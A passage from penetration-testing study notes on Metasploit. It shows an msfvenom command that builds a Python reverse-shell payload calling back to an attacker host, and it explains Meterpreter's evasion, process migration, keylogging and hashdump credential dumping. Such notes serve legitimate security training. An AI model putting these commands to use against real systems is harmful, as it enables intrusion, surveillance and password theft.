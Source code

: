 * Python

```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

All of the examples above are reverse payloads. This means you will need to have the exploit/multi/handler module listening on your attacking machine to work as a handler.

### Meterpreter[​](broken-reference) <a href="#meterpreter" id="meterpreter"></a>

Meterpreter is a Metasploit payload that supports the penetration testing process with many valuable components. Meterpreter runs in memory RAM to avoid having a file that has to be written to the disk on the target system. This way, Meterpreter will be seen as a process and not have a file on the target system. Meterpreter also aims to avoid being detected by network-based IPS and IDS solutions by using encrypted communication with the server where Metasploit runs.

After exploiting a machine, we can see the process ID (PID) where Meterpreter is running by writing `getpid`. We can find that processes with `ps`command. It is shown as spoolsv.exe and the user is NT AUTHORITY\SYSTEM

There are different meterpreter payloads that can be used `msfvenom --list payloads | grep meterpreter`. The decision on which version of Metrpreter to use will be mostly based on three factors:

* The target operating system
* Components available on the target system
* Network connection types you can have with the target system

We can run the command `help` to see the command options.

#### Post-Exploitation with Meterpreter[​](broken-reference) <a href="#post-exploitation-with-meterpreter" id="post-exploitation-with-meterpreter"></a>

**Help**[**​**](broken-reference)

Will give you a list of all available commands in Meterpreter.

**Meterpreter commands**[**​**](broken-reference)

The `getuid` command will display the user with which Meterpreter is currently running. The `ps` command will list running processes.

**Migrate**[**​**](broken-reference)

Migrating to another process will help Meterpreter interact with it. Some Meterpreter versions will offer you the `keyscan_start`, `keyscan_stop`, and `keyscan_dump` command options to make Meterpreter act like a keylogger (when migrating to word.exe and similar). Migrating to another process may also help you to have a more stable Meterpreter session.

If you migrate from a higer privileged user to another with lower privileges, you may lose your user privileges.

**Hashdump**[**​**](broken-reference)

The `hashdump` command will list the content of the SAM database. The SAM (Security Account Manager) database stores user's passwords on Windows systems. These passwords are stored in the NTLM (New Technology LAN Manager) format.

